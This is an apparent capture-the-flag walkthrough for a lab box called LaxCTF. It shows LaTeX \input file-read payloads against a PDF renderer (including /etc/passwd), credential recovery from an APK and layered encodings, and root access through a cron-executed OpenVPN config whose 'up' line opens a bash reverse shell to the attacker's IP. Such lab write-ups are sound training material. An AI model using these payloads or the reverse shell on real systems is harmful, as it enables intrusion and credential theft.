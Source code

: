# LaxCTF

## Enumeration

Starting with an nmap scan, we find that port 22 and 80 are the only open ports. `sudo nmap -Pn -v -A 10.10.214.57`

![namp](images/nmap.png)

On the site at port 80 it seems like we can create PDFs from latex commands. Submitting something random gives away that `pdfTex` is used backend for the conversion.

![latexPDF](images/latexPdf.png)

After some googling I found [this article on exploiting moodle and latex rendering](https://www.exploit-db.com/exploits/8297) which might give us some help proceeding.
In the article they say that earlier moodle versions are vulnerable for lfi attacks. Using this command `$$ \input{<path/to/file>} $$` we might be able to read files on the system. The `/etc/passwd` file is a good starting point, since we don't know of any other files on the system.

Thus we will try to render the `$$ \input{/etc/passwd} $$` command.

Scrolling down to the response section we see a whole lot of users, and at the end something that looks like a secret `/opt/secret`

![secret](images/secret.png)

Interesting...let's try to display the contents of this secret file `$$ \input{/opt/secret} $$`

A new pdf is created when the command is executed.
![new pdf](images/secretFile.png)

Uh oh! The PDF seems to be completely empty...but is it really?

![empty pdf](images/emptyPdf.png)

Pressing `ctrl + a` and `ctrl + c` we copy the text in the PDF, which simply is out of bounds.

Pasting the text into a file editor reveals that the PDF was not empty at all. The first few characters of this string reveals that the string is encrypted with AES (Advanced encryption standard) using CBC (cipher block chaining) and a 128 bit key. 

![aes](images/aes.png)

We need a decryption key in order to get access to whatever is hidden, so let's continue with our enumeration.

Booting up gobuster to look for hidden directories `gobuster dir -u http://10.10.230.202 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 40` gives us an unusual diretory called `Google-Earth`.

![google earth](images/ge.png)

This directory only contains a single file called app-realease.apk. APKs are file packages for Android devices. Let's download the file and check it out.

![apk](images/app.png)

Using the `apktool d app-release.apk` command, we unpack the APK file, and with `grep -rnw 'app-release' -e 'AES'` you find all the files containing the string `AES` in the `app-release` folder. Lucky for us there seem to be a couple of results.

![aes search](images/aesSearch.png)

Heading to the file that contains `AES` we see a decryption key and an initialization vector.

![aes keys](images/aesKeys.png)

Decryption key `sUp3rCr3tKEforL!`

Initialization vector `sUp3rCr3tIVforL!`

Using `OpenSSL` we try to decrypt the file. It is important to note that the IV and Key must be encoded as hex in order for OpenSSL to be able to use it.
![hex](images/hex.png)

The first line of the file that contains `AES/CBC/128 ` must be removed because it's not part of the encryption. We further see that the file is encoded by base64, so that must be first be decoded before OpenSSL can decrypt it.

That gives us this command 

`base64 -d secret| openssl aes-128-cbc -d -out secretDecrypted -iv '7355703372437233744956666f724c21' -K '7355703372437233744b45666f724c21'`

```
----[---->+<]>--.+[--->+<]>+.[--->+<]>+.[->+++++<]>+.[----->+<]>+.++.[--->+<]>--.>-[--->+<]>-.+++.+[----->+<]>.-----------.>+[--->++<]>.>-[-
[...]
+.---.---[-->+++<]>--.-[--->++<]>+.>-[----->+<]>-.[->++<]>.+[--->+<]>.-[++>---<]>-.[----->+<]>---.>+[--->++<]>.
```

This looks a lot like `brainfuck` encoding, so let's try to decode it. The decoded text from [this site](https://www.splitbrain.org/_static/ook/) looks like reversed base64 encoding.

![brainfuck](images/brainfuck.png)
![reverse](images/reverse.png)

Reverse to base64 and decode `echo "=kzcHJl[...]mV" | rev | base64 -d` to get a new base64 encoding `Vm0wd[...]Gs9`. Keep decoding this string until you get the plaintext `king:tryh@ckm3w4sH3r3`. This is probably a SSH login, so let's try that!



Success! We got user.

![user](images/ssh.png)

## Privilege escalation

We see that there is an empty `*.ovpn` configration file in the user's home directory.

Further observe the last cron job in `/etc/crontab` executes `run.sh` in the root folder.

![cron](images/cron.png) 

The empty `.ovpn` file seems really weird, and might be a hint that the `run.sh` has something to do with it. After some research I found ![this article](https://medium.com/tenable-techblog/reverse-shell-from-an-openvpn-configuration-file-73fd8b1d38da) that shows how you can get a reverse shell with this configuration
```
remote <Your THM ip>
dev tun
nobind
script-security 2
up "/bin/bash -c '/bin/bash -i > /dev/tcp/<Your THM ip>/8181 0<&1 2>&1&'"
```

The commands that follows `up` gets executed, and that gives us reverse shell. Write to the configuration file, and use netcat to listen for incoming connections.

Write the configuration above to the `tryhackme.ovpn` file, and wait for the cron job to run again at port `8181`.
 `nc -v -n -l -p 8181`

 ![root](images/root.png)

 Rooted! :^)